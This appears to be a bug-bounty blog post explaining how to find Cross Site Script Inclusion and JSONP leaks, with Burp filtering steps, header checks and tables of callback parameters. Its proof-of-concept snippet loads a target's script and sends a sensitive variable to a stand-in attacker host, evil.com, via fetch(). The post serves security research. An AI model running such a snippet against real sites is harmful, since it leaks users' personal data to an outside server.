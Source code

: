 ```yaml
---
title: Effortlessly finding Cross Site Script Inclusion (XSSI) & JSONP
description: Methdology for XSSI & JSONP vulnerabilities.
slug: XSSI
date: 2019-12-27 00:00:00+0000
hideReadMore: true
---
```

Hey everyone, I recently reported a dupe for a XSSI bug on a private program which paid out $800 to the original reporter. I decided to share the methodology I follow.

*Update: With the advent of same-site cookies, this vulnerability will be more difficult to find, as it relies on cookies being sent in the request similar to CSRF attacks.*

**tl;dr:** (also read important notes at the bottom)

![Cheat sheet or something idk lol](1.png "Title")

Good reads, in case you’re new to:

**XSSI**: [Cross-Site Sscript Inclusion](https://www.scip.ch/en/?labs.20160414)

**JSONP**: [Accessing cross-site data using JSONP](https://www.sjoerdlangkemper.nl/2019/01/02/jsonp)

---

### My Methodology:

- After spidering the website (manual & automated), I filtered the results in Burp suite by MIME type, then skim through the responses of type “script” for sensitive information.

![Filtering by MIME type](2.png "Title")

- I found a JS file which includes all the information that I filled in when signing up for an insurance policy. This included SSN, limited medical history, visa info, name, phone number, DOB, address etc. *Yikes*.
- I look at the HTTP GET request for the JS file to make sure that it doesn’t require CORS triggering headers like:
Authorization, X-API-KEY, X-CSRF-TOKEN, X-whatever
- At this stage if it does have CORS headers then, the attack will fail, unless I also find a CORS issue.

In this case, no special headers were needed, so I could include the JS file on a web page with a script tag and send it to any server leaking some serious PII, with the POC being similar to:

```html
<script src="https://target.com/vuln.js"></script>
<script defer>
// var_name is a variable in vuln.js holding sensitive information
console.log(var_name);
// sending information to an attacker controlled server
fetch("https://evil.com/stealInfo?info="+var_name);
</script>
```

You can use the same way to find JSONP callbacks by appending parameters like callback=some_function, jsonp=blah on all paths that return sensitive information.


---

### Important Notes:

Sometimes you’ll need multiple parameters to trigger a JSONP response.


| Endpoint | JSONP? |
| ----------- | ----------- |
| target.com?callback=test |❌|
| target.com?type=jsonp&callback=test |✅|

- If the response has a header set as `Content-Type: application/json` but the body has JSONP/javascript, and the `X-Content-Type-Options: nosniff` header is NOT in the response, the exploit still works.

For JSONP, different callback parameters might work on different endpoints even on the same website.

| Endpoint | JSONP? |
| ----------- | ----------- |
| target.com/profile_info?callback=test |❌|
| target.com/profile_info?jsonp=test |✅|

But, on a different path on the same site:

| Endpoint | JSONP? |
| ----------- | ----------- |
| target.com/account_info?jsonp=test |❌|
| target.com/account_info?jsoncallback=test |✅|
